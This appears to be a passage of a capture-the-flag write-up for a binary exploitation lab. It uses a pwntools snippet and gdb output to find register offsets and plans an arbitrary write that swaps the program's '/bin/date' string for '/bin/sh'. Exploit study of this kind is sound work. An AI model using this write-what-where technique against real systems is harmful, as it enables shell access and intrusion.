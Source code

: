 ```python
	n = 2
	a = d[1]
	byt = [a[i:i+n] for i in range(0, len(a), n)]
	bytes = b"".join(struct.pack("B", int("0x"+byt[i], 16)) for i in range(0,4))
	rcx = bytes
	info("rcx offset = %d", cyclic_find(rcx))
```
###### Results:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 GetGOTGood_Pwn1.py
rax            0x6161616261616161  7016996769588404577
(gdb) 
[*] rax offset = 1

rdx            0x6161616461616163  7016996778178339171
(gdb) 
[*] rdx offset = 9

rcx            0x61616661616165    27410165089263973
(gdb) 
[*] rcx offset = 18
```
We get a segfault once `rcx` is overwritten, after 18 characters

But so, the data in RAX (the beginning of the string) is stored at the address in RCX (which we also control)

So we can use this to write data wherever we may want


So yeah, what if we try to get it so that main returns and see what we can call from there

I wonder if I could ultimately use this to overwrite like, the string used in the command
That data command is DYING to be overwritten
```
  s_/bin/date_004008ce                            XREF[1]:     main:004007a3(*)  
        004008ce 2f 62 69        ds         "/bin/date"
                 6e 2f 64 
                 61 74 65 00
```

So looking at these lines
```
0x0000000000400800 <+149>:   mov    %rax,(%rcx)
0x0000000000400803 <+152>:   mov    %rdx,0x8(%rcx)
```

```
00 40 08 ce + 8 = 4008D6
```

So `rax` goes into the first 8 bytes and rdx goes into the last two
I will have to figure out how much of rdx

So, I think the plan is to build a payload
`[Rax] + [RDX] + [RCX]`
I am gonna have to get the sizes right and stuff
`/bin/sh = 2F 62 69 6E 2F 73 68`
